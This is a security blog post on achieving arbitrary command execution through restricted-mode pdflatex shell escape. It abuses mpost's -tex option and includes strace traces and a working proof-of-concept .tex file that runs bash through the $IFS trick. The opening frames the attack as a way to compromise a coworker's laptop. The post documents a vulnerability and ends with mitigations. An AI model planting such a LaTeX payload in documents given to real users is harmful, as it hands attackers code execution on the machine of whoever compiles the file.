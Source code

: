 ```yaml
---
layout: post
title: Pwning coworkers thanks to LaTeX
---
```


Writing reports in LaTeX is painful. However, it's a great occasion to bring joy
to the office and pwn a coworker's laptop while he's kindly proofreading your
pentest report.

<!-- more -->



# \input and \write18 primitives

A few techniques allow the
[execution of commands](https://tex.stackexchange.com/questions/20444/what-are-immediate-write18-and-how-does-one-use-them)
during the conversion of a `.tex` file to a PDF with `pdflatex`. It's
documented, and the following TeX primitives send commands to the shell:

~~~~~ tex
\immediate\write18{bibtex8 --wolfgang \jobname}
\input{|bibtex8 --wolfgang \jobname}
~~~~~

On Ubuntu 16.04, `/usr/share/texmf/web2c/texmf.cnf` configuration file controls
the behavior of `pdflatex` (`texlive-base` package). Here's an extract:

~~~~~ tex
% Enable system commands via \write18{...}.  When enabled fully (set to
% t), obviously insecure.  When enabled partially (set to p), only the
% commands listed in shell_escape_commands are allowed.  Although this
% is not fully secure either, it is much better, and so useful that we
% enable it for everything but bare tex.
shell_escape = p

% No spaces in this command list.
%
% The programs listed here are as safe as any we know: they either do
% not write any output files, respect openout_any, or have hard-coded
% restrictions similar or higher to openout_any=p.  They also have no
% features to invoke arbitrary other programs, and no known exploitable
% bugs.  All to the best of our knowledge.  They also have practical use
% for being called from TeX.
%
shell_escape_commands = \
bibtex,bibtex8,\
extractbb,\
kpsewhich,\
makeindex,\
mpost,\
repstopdf,\

~~~~~

Normally, any program listed in `shell_escape_commands` should be allowed to be
executed. Let's verify this. First, create a minimal `.tex` file:

~~~~~ bash
$ cat <<EOF>x.tex
\documentclass{article}
\begin{document}
\immediate\write18{uname -a}
\end{document}
EOF
~~~~~

Then verify if `uname` is actually called thanks to `strace`:

~~~~~ bash
$ strace -ff -e execve pdflatex x.tex >/dev/null
execve("/usr/bin/pdflatex", ["pdflatex", "x.tex"], [/* 32 vars */]) = 0
+++ exited with 0 +++
~~~~~

As expected, `uname -a` wasn't executed. Let's replace `uname` with `kpsewhich`,
which should be allowed:

~~~~~ bash
$ sed -i 's/uname -a/kpsewhich --imminent --pwn/' x.tex
$ strace -ff -e execve pdflatex x.tex |& grep execve
execve("/usr/bin/pdflatex", ["pdflatex", "x.tex"], [/* 32 vars */]) = 0
[pid 14042] execve("/bin/sh", ["sh", "-c", "kpsewhich '--imminent' '--pwn'"], [/* 37 vars */]) = 0
[pid 14043] execve("/usr/bin/kpsewhich", ["kpsewhich", "--imminent", "--pwn"], [/* 37 vars */]) = 0
~~~~~

Alright, `kpsewhich` is really executed, as should any binary in the
`shell_escape_commands` list. According to `texmf.cnf`, the programs in this
list **have no features to invoke arbitrary other programs**. As we're going to
see, this assertion is utterly wrong. Let's check if the binaries (``bibtex``,
``bibtex8``, ``extractbb``, ``kpsewhich``, ``makeindex``, ``mpost``,
``repstopdf``) handle malicious input correctly.



# MetaPost

The `mpost` command seems particularly interesting because of the `-tex` option
(which isn't documented in the
[mpost manpage](https://linux.die.net/man/1/mpost) but in the `--help` option):

~~~~~ man
-tex=TEXPROGRAM           use TEXPROGRAM for text labels
~~~~~

Let's create a minimal MetaPost file, and try a few combination of arguments
(I've absolutely no idea of what this command is meant to do, and the [source
code](https://github.com/pgundlach/LuaTeX/blob/master/source/texk/web2c/mplibdir/mpost.w)
isn't of great help):

~~~~~ bash
$ cat <<EOF>x.mp
verbatimtex
\documentclass{minimal}
\begin{document}
etex
beginfig (1)
label(btex blah etex, origin);
endfig;
\end{document}
bye
EOF

$ echo x.mp \
  |  strace -ff -e execve mpost -ini -tex="/bin/uname -a" \
  |& grep execve
execve("/usr/bin/mpost", ["mpost", "-ini", "-tex=/bin/uname -a"], [/* 32 vars */]) = 0
[pid 25508] execve("/bin/uname", ["/bin/uname", "-a", "mpj9sP7Z.tex"], [/* 37 vars */]) = 0
~~~~~

Great, `uname -a` is executed.



# Exploitation

As seen above, the execution of arbitrary commands is straightforward. Passing
arbitrary arguments to the command line is a little bit more difficult. I didn't
manage to put any space in them because of the way arguments are parsed. The
function responsible of the command execution is `runpopen()`
([texmfmp.c](http://www.luatex.org/svn/branches/direct_node/source/texk/web2c/lib/texmfmp.c)).
It calls `shell_cmd_is_allowed()` which tells if the given command is allowed
(according to `shell_escape_commands` from the configuration file) and quotes
arguments properly. Single quotes (`'`) aren't allowed. Nevermind, powerful
payloads can be written as Python one-liner without requiring any space; but it
may be easier to execute shell commands directly thanks to the bash `$IFS`
trick.

Finally, here's a PoC of the vulnerability which executes
`bash -c '(id;uname${IFS}-sm)>/tmp/pwn'`:

~~~~~ bash
$ cat <<EOF>x.mp
verbatimtex
\documentclass{minimal}\begin{document}
etex beginfig (1) label(btex blah etex, origin);
endfig; \end{document} bye
EOF

$ cat <<EOF>x.tex
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (id;uname${IFS}-sm)>/tmp/pwn" "x.mp"}
\end{document}
EOF

$ cat /tmp/pwn
cat: /tmp/pwn: No such file or directory

$ pdflatex x.tex >/dev/null
fatal: DVI generation failed

$ cat /tmp/pwn
uid=1000(user) gid=1000(user)
Linux x86_64
~~~~~

A few tricks can improve the "exploit" reliability. Indeed, this PoC doesn't
work if `pdflatex` isn't lauched from `x.mp`'s directory (but default `.mp`
files can be specified). The `-interaction=nonstopmode` option of `mpost `allows
the compilation of the rest of the document even if an error occurs.



# Conclusion

I think there are plenty of other ways to get code execution, not only by
managing to execute arbitrary command but also by overwriting arbitrary files.
The `-no-shell-escape` option of `pdflatex` is a workaround which might save you
from this specific issue but I wouldn't rely too much on it. Given that
`pdflatex` and related tools are mostly written in old school `C`, memory
corruption bugs are likely to be present…

In short, run `pdflatex` in a VM.
